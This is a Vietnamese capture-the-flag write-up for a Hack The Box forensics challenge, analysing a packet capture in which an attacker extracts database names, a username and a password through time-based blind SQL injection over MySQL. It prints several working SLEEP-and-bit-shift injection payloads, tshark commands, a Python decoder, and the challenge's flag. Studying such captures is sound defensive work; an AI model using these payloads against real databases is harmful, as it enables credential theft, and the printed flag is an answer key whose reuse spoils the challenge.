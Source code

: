 # exfil

- Đầu tiên, phân tích sơ qua thì ta thấy file capture này đang mô phỏng lại quá trình attacker "data exfiltration" lên server thông qua protocol mysql
- Filter "mysql" ta sẽ thấy được hàng loạt các câu lệnh mysql injection được attacker gửi lên server
![1](1.png)

- Xét đoạn mysql sau:
![2](2.png)
```mysql
	SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), 1, 1)) >> 7 & 1) * 3)
```
- Xử lý luồng thực thi từ trong ra ngoài thì ta sẽ có:
	- SELECT group_concat(database_name) FROM mysql.innodb_table_stats
group_concat(database_name) lấy tất cả record của Field database_name từ bảng mysql.innodb_table_stats (bảng này chứa tên các bảng được khởi tạo).
	- substr(string, 1,1) : lấy kí tự đầu tiên của string
	- ASCII (char): chuyển kí tự sang mã ASCII
	- shift right 7 <==> chia cho 2 ^ 7, and với 1
	- Nếu kết quả là 0 thì sẽ không sleep, 1 thì sleep 1*3 (s)
- Vậy chỉ cần dựa vào thời gian trao đổi giữa các gói tin attacker có thể dễ dàng bruteforce được database_name.
- Ta tiếp tục xét đoạn mysql sau:
![3](3.png)
	```mysql
		SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f6d33313439), 1, 1)) >> 2 & 1) * 3)
	```
	- Sau khi đã bruteforce được database_name là 0x64625f6d33313439, attacker tiếp tục tìm những database do user khởi tạo

- Phân tích những gói tin mysql tiếp theo, ta sẽ thấy attacker đã brute thành công database có tên là db_m3149.users, table user và password

```mysql
	SELECT SLEEP((SELECT ASCII(substr((SELECT user FROM db_m3149.users), 1, 1)) >> 6 & 1) * 3)
	SELECT SLEEP((SELECT ASCII(substr((SELECT password FROM db_m3149.users), 3, 1)) >> 5 & 1) * 3)
```

- Với cách tấn công như mình đã phân tích ở trên, attacker có thể lấy toàn bộ user,password từ phía server
- Nếu là người kiên nhẫn thì bạn cũng có thể tìm ra user với password và lấy được flag
- Nhưng ... mình là người chơi hệ code nên thôi code vậy
- OK, sau khi phân tích xong, việc chúng ta cần làm là xử lý dữ liệu
- Ban đầu mình filter mysql contains "db_m3149.users" để lọc ra dữ liệu cần thiết, sau đó export sang json để xử lý
nhưng có 1 vấn đề là sau khi export thì bị duplicate key (json parse sẽ reject những key trùng nhau và chỉ lấy key ở cuối)
![4](4.png)

- Mình bị stuck đoạn này khá lâu và tìm đến tshark (mình tạm gọi là phiên bản terminal của Wireshark)

```sh
	tshark -Y "mysql contains db_m3149.users" -r capture.pcap -Tjson --no-duplicate-keys -w result.json
	segment found (oh no !!!!)
	-- TRY AGAIN --
	tshark -Y "mysql contains db_m3149.users" -r capture.pcap -Tjson --no-duplicate-keys > result.json
	(Ờ mây zing, gút chóp em)
```

- Không dài dòng nữa code thôi :v

```python
import json,re

f = open('result.json','r').read()

j = json.loads(f)

user   = []
passwd = []

for i in j:
	if(float(i['_source']['layers']['frame']['frame.time_delta']) > 2):
		temp = i['_source']['layers']['mysql'][1]['mysql.field.name']
		_regextemp = re.findall(', (.*), 1\)\) >>(.*)&',temp) # regex để lấy 2 số attacker dùng để bruteforce
		if re.search('SELECT user',temp):
			user.append(_regextemp) # sau khi append thì sẽ thành mảng 3 chiều, vì sau khi regex sẽ trả về 1 mảng
		else:
			passwd.append(_regextemp)

def bruteForce(arr):
	for k in range(41,126): # Mã ASCII những kí tự hay dùng
		check = True
		for i in arr:
			if k >> i & 1 != 1:
				check = False
				break

		if(check == True):
			return chr(k)

	return 'x' # trả về x nếu ko tồn tại, đoạn này ko cần quan tâm (type = None)

def Decode(msg):
	temp = []
	i = 1
	result = ''
	for arr in msg:
		if(int(arr[0][0]) == i):
			temp.append(int(arr[0][1]))
		else:
			result += bruteForce(temp)
			i += 1
			temp = [] # reset array
			temp.append(int(arr[0][1]))

		if(arr == msg[-1]):
			result += bruteForce(temp)

	return result

print("[+] user :", Decode(user))
print("[+] password :", Decode(passwd))
```

- result :
	```sh
		[+] user : admin
		[+] password : HTB{b1t_sh1ft1ng_3xf1l_1s_c00l}
	```